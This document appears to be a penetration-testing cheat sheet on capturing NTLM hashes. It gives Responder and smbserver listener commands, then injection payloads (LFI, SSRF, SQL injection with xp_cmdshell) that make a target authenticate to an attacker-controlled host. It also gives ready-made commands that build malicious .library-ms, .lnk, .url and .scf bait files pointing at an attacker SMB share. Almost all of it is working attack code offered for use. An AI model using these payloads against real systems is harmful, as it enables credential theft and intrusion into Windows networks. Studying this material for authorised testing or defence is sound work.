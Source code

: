 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Capturing NTLM

## Listener

```sh
sudo responder -I $INTERFACE -A
```

```sh
smbserver.py share /dev/null -smb2support
```

## Possible Attacks

### Via web vulnerability

If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

```sh
# LFI
?page=\\$IP\shared

# SSRF
?url=file:////$IP/shared

# SQL Injection
?id=1' union select null,load_file('\\\\$IP\\shared'),null-- -
?id=1' union select null,(select x from OpenRowset(BULK '\\$IP\shared',SINGLE_CLOB) R(x)),null-- -
?id=1' union select null,(EXEC xp_cmdshell 'dir \\$IP\shared'),null-- -
```

### Via .library-ms file

```sh
cat > '!shared.library-ms' <<'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\$IP\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
EOF
```

### Via .lnk file

```sh
pylnk3 c "\\\\$IP\shared" '!shared.lnk' -i "\\\\$IP\\shared\\icon.ico"
```

### Via .url file

```sh
cat > '!shared.url' <<'EOF'
[InternetShortcut]
URL=\\\\$IP\\shared
IconIndex=1
IconFile=\\\\$IP\\shared\\icon.ico
EOF
```

### Via .scf file

```sh
cat > '!shared.scf' <<'EOF'
[Shell]
Command=2
IconFile=\\\\$IP\\shared\\icon.ico
[Taskbar]
Command=ToggleDesktop
EOF
```

